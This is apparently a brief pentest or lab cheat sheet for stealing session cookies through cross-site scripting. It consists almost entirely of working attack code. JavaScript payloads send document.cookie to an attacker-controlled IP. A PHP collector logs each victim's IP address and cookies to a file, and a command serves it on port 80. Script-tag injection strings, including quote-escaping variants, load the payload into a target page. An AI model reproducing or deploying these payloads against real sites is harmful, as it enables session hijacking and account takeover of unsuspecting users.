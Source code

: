 Put one of the payloads into script.js
```js
document.location='http://10.10.15.8/index.php?c='+document.cookie;
new Image().src='http://10.10.15.8/index.php?c='+document.cookie;
```

PHP server for catching cookies

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```shell
sudo php -S 0.0.0.0:80
```

Final payload
```bash
<script src=http://10.10.15.8/script.js></script>
'><script src=http://10.10.15.8/script.js></script>
"><script src=http://10.10.15.8/script.js></script>
```